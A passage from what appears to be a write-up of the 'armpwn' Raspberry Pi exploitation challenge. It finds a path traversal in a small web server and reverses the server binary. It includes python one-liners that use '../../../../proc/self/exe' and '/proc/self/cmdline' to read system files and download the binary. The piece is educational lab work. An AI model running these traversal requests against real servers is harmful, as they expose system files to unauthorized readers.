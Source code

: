 Just like for a regular pentest, all we know here is that the port 80/tcp is open,
and accessing to `/` redirect us to a page to turn on and off a LED (supposed
connected to the GPIO on our RaspberryPi). Not exactly fancy...
By sending a simple [`ncat`](https://nmap.org/ncat) request, things get suddenly more interesting:
{{ img(src="https://i.imgur.com/Zw0BH8c.png" title="toadd") }}

*__Hint__:* Other tools were tested and failed. The reason for that is that they
parse and resolve the URL *before* sending it. So if I try to fuzz
`http://foo/../../../another/path`, the tools will automatically solve it as
`http://foo/another/path` even before the request leaves my computer. This is
(IMHO) a bad feature for pentesters/bug hunters as it may lead to missing out some easy
vulns (just like here!). So again, only one rule apply: trust only your own
tools!

Back to business: we can now read files remotely like `/etc/passwd` but we can
also retrieve the binary using `/proc/self/exe`

```bash
$ python -c 'import requests;print requests.get("http://"+"rpi2-1/../../../../proc/self/cmdline").text'
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

/home/pi/armpwn/bin/websrv
$ python -c 'import requests;print
requests.get("http://"+"rpi2-1/../../../../proc/self/exe").text' > websrv
$ file websrv
websrv: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.26, BuildID[sha1]=5b3aa53d30579a7f7f0b9cb1eedfb06b1884e112, stripped
```

Much better, we have the binary to analyze! This part was pretty
straight-forward, let's move on.

Next, the binary analysis.


# Reversing the binary

We can use `IDA` to start with the static analysis. After a quick examination,
the overall structure reveals itself quite clearly.
The behaviour for the main process can be described with this pseudo-code:

```c
create_bind_socket();
bind();
listen();
while(1){
    fd = accept();
    if( fork() > 0){          // child process
        setup_alarm();
        treat_requests(fd);
        close_socket(fd);
        exit(0);
    }
    close_socket(fd);
}
```

